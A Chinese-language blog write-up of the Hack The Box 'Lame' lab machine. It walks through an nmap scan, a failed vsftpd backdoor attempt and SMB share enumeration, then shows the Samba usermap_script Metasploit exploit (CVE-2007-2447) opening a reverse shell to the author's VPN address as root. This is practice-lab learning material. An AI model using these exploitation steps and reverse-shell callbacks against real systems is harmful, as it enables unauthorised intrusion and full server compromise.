 ```yaml
---
title: HTB靶机Lame Write UP
author: Zk
date: 2025-06-08 16:21:00 +0800
last_modified_at: 2025-06-08 16:21:00 +0800
categories: [HTB]
tags: [HTB]
math: true
mermaid: true
---
```




# Nmap扫描

    ┌──(root?kali)-[/home/kali]
    └─# nmap  -sC -sV 10.10.10.3 -p- --min-rate 4000
    Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-08 03:10 EDT
    Nmap scan report for 10.10.10.3 (10.10.10.3)
    Host is up (0.42s latency).
    Not shown: 65530 filtered tcp ports (no-response)
    PORT     STATE SERVICE     VERSION
    21/tcp   open  ftp         vsftpd 2.3.4
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to 10.10.16.9
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      vsFTPd 2.3.4 - secure, fast, stable
    |_End of status
    22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
    |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
    3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

# There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?

## 笑脸漏洞(VSFTPD2.3.4)

**尝试失败**

    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
    [*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 10.10.10.3:21 - USER: 331 Please specify the password.
    [*] Exploit completed, but no session was created.

## SMB

    ┌──(root㉿kali)-[/home/kali]
    └─# smbmap -H 10.10.10.3
    [*] Detected 1 hosts serving SMB                                                                                                  
    [*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                                
    [+] IP: 10.10.10.3:445	Name: 10.10.10.3          	Status: Authenticated
        Disk                                                  	Permissions	Comment
        ----                                                  	-----------	-------
        print$                                            	NO ACCESS	Printer Drivers
        tmp                                               	READ, WRITE	oh noes!
        opt                                               	NO ACCESS	
        IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
    [*] Closed 1 connections                                                                                                     
连接上去看看:`smbclient -N //10.10.10.3/tmp`

    smb: \> dir
    .                                   D        0  Sun Jun  8 03:46:24 2025
    ..                                 DR        0  Sat Oct 31 02:33:58 2020
    .ICE-unix                          DH        0  Sat Jun  7 18:46:44 2025
    vmware-root                        DR        0  Sat Jun  7 18:47:55 2025
    5542.jsvc_up                        R        0  Sat Jun  7 18:47:44 2025
    .X11-unix                          DH        0  Sat Jun  7 18:47:10 2025
    .X0-lock                           HR       11  Sat Jun  7 18:47:10 2025
    vgauthsvclog.txt.0                  R     1600  Sat Jun  7 18:46:41 2025

没有可利用文件



## Samba RCE CVE-2007-2447

***searchsploit搜索可利用漏洞***

    ┌──(kali㉿kali)-[~]
    └─$ searchsploit 'samba 3.0.20'
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                                   |  Path
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                           | multiple/remote/10095.txt
    Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                 | unix/remote/16320.rb
    Samba < 3.0.20 - Remote Heap Overflow                                                                            | linux/remote/7701.txt
    Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                    | linux_x86/dos/36741.py
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results

发现第二个可以在MSF中利用

    msf6 > search samba 3.0.2

    Matching Modules
    ================

    #   Name                                                   Disclosure Date  Rank       Check  Description
    -   ----                                                   ---------------  ----       -----  -----------
    0   exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
    1   exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
    2     \_ target: Linux vsyscall                            .                .          .      .
    3     \_ target: Linux Heap Brute Force (Debian/Ubuntu)    .                .          .      .
    4     \_ target: Linux Heap Brute Force (Gentoo)           .                .          .      .
    5     \_ target: Linux Heap Brute Force (Mandriva)         .                .          .      .
    6     \_ target: Linux Heap Brute Force (RHEL/CentOS)      .                .          .      .
    7     \_ target: Linux Heap Brute Force (SUSE)             .                .          .      .
    8     \_ target: Linux Heap Brute Force (Slackware)        .                .          .      .
    9     \_ target: Linux Heap Brute Force (OpenWRT MIPS)     .                .          .      .
    10    \_ target: DEBUG                                     .                .          .      .
    11  exploit/solaris/samba/lsa_transnames_heap              2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
    12    \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24    .                .          .      .
    13    \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24  .                .          .      .
    14    \_ target: DEBUG                                     .                .          .      .
    
    
    msf6 > use 0

    msf6 exploit(multi/samba/usermap_script) > show options

    Module options (exploit/multi/samba/usermap_script):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    CHOST                     no        The local client address
    CPORT                     no        The local client port
    Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
    RPORT    139              yes       The target port (TCP)

    msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3

***注意将本地监听端口该为openvpn的ip***
    
    msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.16.9
    msf6 exploit(multi/samba/usermap_script) > run
    [*] Started reverse TCP handler on 10.10.16.9:4444 
    [*] Command shell session 1 opened (10.10.16.9:4444 -> 10.10.10.3:41153) at 2025-06-08 04:02:47 -0400

    whoami
    root


获取一个新的bash shell:`python -c 'import pty; pty.spawn("/bin/bash")'`

最后分别获取makis和root的home目录下的flag
